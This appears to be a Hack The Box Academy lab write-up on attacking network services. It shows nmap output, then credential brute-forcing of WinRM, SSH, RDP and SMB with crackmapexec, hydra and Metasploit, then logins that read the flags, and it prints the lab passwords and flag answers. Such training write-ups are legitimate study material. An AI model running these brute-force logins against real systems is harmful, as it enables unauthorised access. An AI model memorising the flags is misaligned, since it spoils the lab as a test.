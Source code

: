 # Network Services

### Find the user for the WinRM service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC 10.129.202.136 -oN nmap.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-18 06:13 EST
Nmap scan report for 10.129.202.136 (10.129.202.136)
Host is up (0.27s latency).
Not shown: 993 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 f8:7f:1a:49:37:df:4d:9f:1b:13:c3:9a:bd:de:55:b4 (RSA)
|   256 b9:c9:3a:f1:fc:3b:85:27:09:2a:69:c1:43:0b:97:9b (ECDSA)
|_  256 d1:a8:1a:e9:26:82:4b:a2:48:92:06:f8:ed:13:5d:71 (ED25519)
111/tcp  open  rpcbind?
| rpcinfo: 
|   program version    port/proto  service
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  4           2049/tcp   nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=WINSRV
| Not valid before: 2024-02-17T10:00:52
|_Not valid after:  2024-08-18T10:00:52
| rdp-ntlm-info: 
|   Target_Name: WINSRV
|   NetBIOS_Domain_Name: WINSRV
|   NetBIOS_Computer_Name: WINSRV
|   DNS_Domain_Name: WINSRV
|   DNS_Computer_Name: WINSRV
|   Product_Version: 10.0.17763
|_  System_Time: 2024-02-18T11:15:26+00:00
|_ssl-date: 2024-02-18T11:15:35+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-02-18T11:15:27
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

lets crack winrm using user list & password list included in this question

```bash
winrm 10.129.6.207 -u username.list -p password.list 
WINRM       10.129.6.207    5985   WINSRV           [+] WINSRV\john:november (Pwn3d!)
```

to login with credentials

```bash
evil-winrm -i 10.129.6.207 -u john -p 'november'
type C:\Users\john\Desktop\flag.txt
HTB{That5Novemb3r}
```

### Find the user for the SSH service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```bash
#crack ssh with hydra
hydra -L username.list -P password.list 10.129.6.207 ssh
[22][ssh] host: 10.129.6.207   login: dennis   password: rockstar
ssh dennis@10.129.6.207
type C:\Users\dennis\Desktop\flag.txt
HTB{Let5R0ck1t}                        
```

### Find the user for the RDP service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```bash
#crack rdp with hydra
hydra -L username.list -P password.list 10.129.6.207 rdp
[3389][rdp] host: 10.129.6.207   login: chris   password: 789456123
```

to connect into rdp

```bash
xfreerdp /v:10.129.6.207 /u:chris /p:'789456123'
HTB{R3m0t3DeskIsw4yT00easy}
```

### Find the user for the SMB service and crack their password. Then, when you log in, you will find the flag in a file there. Submit the flag you found as the answer.

```bash
#crack smb with metasploit
msfconsole
use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list
set rhosts 10.129.173.208
run
cassie:12345678910
```

we got creds, now to login through smb

Now we can use `CrackMapExec` again to view the available shares and what privileges we have for them.

```bash
crackmapexec smb 10.129.101.97 -u "cassie" -p "12345678910" --shares
SMB         10.129.101.97   445    WINSRV           Share           Permissions     Remark
SMB         10.129.101.97   445    WINSRV           -----           -----------     ------
SMB         10.129.101.97   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.101.97   445    WINSRV           C$                              Default share
SMB         10.129.101.97   445    WINSRV           CASSIE          READ,WRITE      
SMB         10.129.101.97   445    WINSRV           IPC$            READ            Remote IPC
```

To communicate with the server via SMB, we can use, for example, the tool [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html). This tool will allow us to view the contents of the shares, upload, or download files if our privileges allow it.

```bash
smbclient -U cassie\\\\10.129.101.97\\CASSIE
get flag.txt
┌──(kali㉿kali)-[~]
└─$ cat flag.txt                                                        
HTB{S4ndM4ndB33} 
```
